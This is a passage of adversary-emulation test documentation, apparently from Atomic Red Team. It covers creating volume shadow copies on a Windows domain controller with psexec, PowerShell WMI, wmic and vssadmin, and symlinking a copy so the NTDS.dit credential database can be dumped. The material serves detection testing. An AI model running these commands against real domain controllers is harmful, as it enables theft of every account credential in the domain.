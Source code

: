 #### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
#{psexec} -u #{AD_ID} -p #{password} \\#{DC_IP} "powershell (gwmi -list win32_shadowcopy).Create('#{drive_letter}',''ClientAccessible')"
```






<br/>
<br/>

## Atomic Test #6 - Create Symlink to Volume Shadow Copy
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by creating a symlink to Volume Shadow Copy.

**Supported Platforms:** Windows




#### Inputs:
| Name         | Description                                  | Type   | Default Value            |
| ------------ | -------------------------------------------- | ------ | ------------------------ |
| drive_letter | Drive letter to source VSC (including colon) | String | C:                       |
| symlink_path | symlink path                                 | String | C:&#92;Temp&#92;vssstore |
| DC_IP        | DC Address                                   | String | 192.168.204.100            |

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:#{DC_IP} process call create 'vssadmin.exe create shadow /for=#{drive_letter}'
wmic /node:#{DC_IP} process call create 'mklink /D #{symlink_path} \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1'
```






<br/>
